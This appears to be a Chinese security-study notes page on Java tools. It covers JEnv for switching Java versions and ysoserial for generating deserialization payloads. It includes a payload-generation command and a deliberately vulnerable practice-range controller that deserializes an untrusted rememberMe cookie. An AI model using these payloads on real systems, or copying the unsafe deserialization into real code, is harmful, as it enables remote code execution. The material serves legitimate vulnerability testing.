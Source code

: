 ```yaml
---
tags:
    - Java
    - Tool
comments: true
---
```


# Java Tools
## JEnv for windows
[JEnv](https://github.com/FelixSelter/JEnv-for-Windows){target=_blank}是一个命令行工具，用于在不同的Java版本之间切换。它可以设置全局Java版本或者项目级别的Java版本。

**安装:**
git clone到本地，以管理员身份运行`jenv.bat`即可。
```bash
jenv -h
"jenv list"                            List all registered Java-Envs.
"jenv add <name> <path>"               Adds a new Java-Version to JEnv which can be refferenced by the given name
"jenv remove <name>"                   Removes the specified Java-Version from JEnv
"jenv change <name>"                   Applys the given Java-Version globaly for all restarted shells and this one
"jenv use <name>"                      Applys the given Java-Version locally for the current shell
"jenv local <name>"                    Will use the given Java-Version whenever in this folder. Will set the Java-version for all subfolders as well
"jenv link <executable>"               Creates shortcuts for executables inside JAVA_HOME. For example "javac"
"jenv uninstall <name>"                Deletes JEnv and restores the specified java version to the system. You may keep your config file
"jenv autoscan [--yes|-y] ?<path>?"    Will scan the given path for java installations and ask to add them to JEnv. Path is optional and "--yes|-y" accepts defaults.
Get help for individual commands using "jenv <list/add/remove/change/use/local> --help"
```

## ysoserial

[ysoserial](https://github.com/frohoff/ysoserial){target="_blank"}是一个用于生成各种序列化payload的工具，可以用于测试Java反序列化漏洞。

- 需求：JDK 1.7+
- 用法：`java -jar ysoserial.jar [payload] '[command]'`

使用 javasec 靶场deserial漏洞测试：

```bash
# certutil 为windows自带工具，用于base64编码，格式为：certutil -f -encode inputfile outputfile
java -jar ysoserial.jar CommonsCollections5 "touch 1" > 1.txt & certutil -f -encode 1.txt 1
```

```java title="反序列化漏洞代码"
public class Deserialize {

    protected final Logger logger = LoggerFactory.getLogger(this.getClass());

    /**
     * java -jar ysoserial.jar CommonsCollections5 "open -a Calculator" | base64 <br>
     * <a href="http://localhost:8080/deserialize/rememberMe/vuln">http://localhost:8080/deserialize/rememberMe/vuln</a>
     */
    @RequestMapping("/rememberMe/vuln")
    public String rememberMeVul(HttpServletRequest request)
            throws IOException, ClassNotFoundException {

        Cookie cookie = getCookie(request, Constants.REMEMBER_ME_COOKIE);
        if (null == cookie) {
            return "No rememberMe cookie. Right?";
        }

        String rememberMe = cookie.getValue();
        byte[] decoded = Base64.getDecoder().decode(rememberMe);

        ByteArrayInputStream bytes = new ByteArrayInputStream(decoded);
        ObjectInputStream in = new ObjectInputStream(bytes);
        in.readObject();
        in.close();

        return "Are u ok?";
    }
}
```

测试结果如下:

![alt text](img/ysoserial.png){loading="lazy"}
